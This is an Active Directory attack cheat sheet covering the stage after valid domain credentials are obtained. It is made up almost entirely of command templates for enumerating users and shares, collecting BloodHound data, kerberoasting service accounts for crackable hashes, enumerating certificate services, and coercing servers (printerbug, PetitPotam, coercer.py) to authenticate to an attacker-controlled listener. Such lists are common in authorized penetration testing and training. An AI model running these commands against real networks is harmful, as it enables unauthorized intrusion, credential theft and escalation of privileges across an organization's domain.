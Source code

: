 ### Got valid credentials
Get all users
	GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>
	cme smb <ip> -u <user> -p '<password>' --users 
	Users
enumerate SMB share
	cme smb <ip> -u <user> -p <password> --shares
	Account
🔥bloodhound
	bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all
	./rusthound -d <domain_to_enum> -u '<user>@<domain>' -p '<password>' -o <outfile> -z
	import-module sharphound.ps1;invoke-bloodhound -collectionmethod all -domain <domain>
	sharphound.exe -c all -d <domain>
Powerview / SharpView
adPeas
pingcastle
🔥kerberoasting
	Get kerberoastable users
		Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
		MATCH (u:User {hasspn:true}) RETURN u
		MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
	Get hash
		GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
		Rubeus kerberoast
		
		
Enum dns 
	dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query <dc_ip>
	Scan network
Enumerate AD CS 
	 🔥 certipy find -u <user>@<domain> -p <password> -dc-ip <domaincontroller>
	
Webdav
	cme smb <ip> -u <user> -p <password> -M webdav #find
	start webdav with Documents.searchConnector-ms file
	coerce with <attacker_hostname>@80/something as target

Coerce
	rpcdump.py <domain>/<user>:<password>@<domain_server> | grep MS-RPRN
	printerbug.py '<domain>/<username>:<password>'@<Printer IP> <listener_ip>
	PetitPotam.py  -d <domain> -u <user>-p <password> <listener_ip> <target_ip>
    🔥coercer.py -u <user> -d <domain> -p <password> -t <target> -l <attacker_ip>


